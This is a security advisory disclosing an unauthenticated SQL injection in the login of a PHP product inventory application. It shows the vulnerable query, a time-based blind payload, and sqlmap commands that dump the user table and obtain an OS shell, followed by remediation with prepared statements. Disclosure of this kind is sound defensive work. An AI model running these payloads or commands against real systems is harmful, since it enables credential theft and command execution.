







# Product Inventory System in PHP v1.0 — Unauthenticated SQL Injection (Login)

**Severity:** Critical
**CVSS 3.1:** 9.8 — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
**CWE:** CWE-89 (Improper Neutralization of Special Elements used in an SQL Command)
**OWASP Top 10:** A03:2021 – Injection
**Discovery Date:** 12 July 2026
**Researcher:** Karan Parelkar ([@KaranParelkar](https://github.com/KaranParelkar))

## Summary

Product Inventory System in PHP v1.0, distributed via [code-projects.org](https://code-projects.org/product-inventory-system-in-php-with-source-code/), contains an unauthenticated SQL injection vulnerability in its login functionality, located in `index.php`. The `password` parameter submitted via `POST /` is concatenated directly into a raw SQL query with no sanitization or parameterization, allowing an attacker with no prior access to inject arbitrary SQL.

## Affected Product

| Item | Details |
|---|---|
| Product | Product Inventory System in PHP |
| Version | 1.0 |
| Source | https://code-projects.org/product-inventory-system-in-php-with-source-code/ |
| Language | PHP 5.6.30 |
| Database | MySQL / MariaDB |
| Server | Apache |
| Test Environment | Windows (XAMPP) |

## Vulnerable Endpoint

```
File: index.php
POST /
Parameter: password
```

## Root Cause

```php
$username = $_POST['username'];
$password = $_POST['password'];

$login = mysql_query(
    "SELECT * FROM user
     WHERE user_name='$username'
     AND user_password='$password'"
);
```

No parameterized query or escaping is used, so user input is executed directly as part of the SQL statement.

## Proof of Concept

### 1. Login Page

The vulnerable login form accepts a user-controlled `password` parameter.

<!-- PoC screenshot: login page -->


### 2. Vulnerable Source Code

The login function directly embeds POST parameters into the SQL query.

<!-- PoC screenshot: vulnerable source code -->


### 3. Manual Time-Based Blind SQL Injection

The intercepted POST request was modified by injecting a time-based SQL payload into the `password` parameter.

```
POST / HTTP/1.1
...
username=user&password=a' AND (SELECT 8582 FROM (SELECT(SLEEP(6)))sjaA) AND 'Gllm'='Gllm&submit=
```

The response was delayed by approximately 6 seconds, confirming successful time-based blind SQL injection.

<!-- PoC screenshot: Burp request showing ~6s delay -->


### 4. SQLMap Verification

```bash
python sqlmap.py -r code_test.txt --random-agent --batch -p password -dbs
```

Confirmed injectable via boolean-based blind, error-based, and time-based blind SQL injection.

<!-- PoC screenshot: SQLMap injection confirmation -->


### 5. Database Enumeration

Databases enumerated on the backend server:

| # | Database Name |
|---|---|
| 1 | information_schema |
| 2 | mysql |
| 3 | performance_schema |
| 4 | phpmyadmin |
| 5 | ladyjoy_fs |
| 6 | test |

<!-- PoC screenshot: SQLMap database enumeration -->


### 6. Credential Extraction

```bash
python sqlmap.py -r code_test.txt --random-agent --batch -p password -D ladyjoy_fs -T user --dump
```

Dumped the `user` table, retrieving the following data:

| Field Retrieved | Description |
|---|---|
| Username | Plaintext account identifier |
| Password | Stored account password |
| User Level | Account privilege/role |

<!-- PoC screenshot: dumped user table -->


### 7. Operating System Command Execution

Because the backend database account held excessive privileges, SQLMap obtained a full OS shell:

```bash
python sqlmap.py -r code_test.txt --random-agent --batch -p password --os-shell
```

Example command executed:

```
whoami
```

Result:

```
command standard output: 'laptop-bd5lr8f6\karan parelkar'
```

This confirms that SQL injection in this application can escalate to full operating system command execution when the database account is overprivileged.

<!-- PoC screenshot: SQLMap --os-shell command execution -->


## Impact

| Impact | Details |
|---|---|
| Authentication Bypass | Login can be bypassed without valid credentials |
| Arbitrary SQL Execution | Attacker-controlled SQL runs against the backend database |
| Database Enumeration | Full list of databases on the server can be retrieved |
| Sensitive Data Disclosure | Usernames, passwords, and user privilege levels can be dumped |
| Administrative Credential Exposure | Admin-level accounts may be recovered from dumped data |
| Confidentiality Compromise | All stored application data is exposed |
| Remote Code Execution | OS command execution achievable when the DB account is overprivileged |

## Remediation

- Replace dynamic SQL with prepared statements (PDO or MySQLi bound parameters)
- Validate and sanitize all user input
- Enforce least-privilege database accounts; remove admin/FILE privileges from the application's DB user
- Deploy a WAF and enable centralized logging/monitoring

### Secure code example

```php
$stmt = $pdo->prepare(
    "SELECT * FROM user WHERE user_name = ? AND user_password = ?"
);
$stmt->execute([$username, $password]);
```

## Disclosure Timeline

| Date | Event |
|---|---|
| 2026-07-12 | Vulnerability discovered and verified locally |
| 2026-07-12 | Vendor/publisher notified |
| Pending | CVE not yet assigned |

## References

- [Product Inventory System in PHP (code-projects.org)](https://code-projects.org/product-inventory-system-in-php-with-source-code/)
- [CWE-89 – SQL Injection](https://cwe.mitre.org/data/definitions/89.html)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [OWASP Top 10 2021 – A03 Injection](https://owasp.org/Top10/A03_2021-Injection/)

## Researcher

**Karan Parelkar** — Independent Security Researcher
- Email: karan.parelkar2005@gmail.com
- GitHub: https://github.com/KaranParelkar
- LinkedIn: https://www.linkedin.com/in/karan-parelkar-6a370125b/
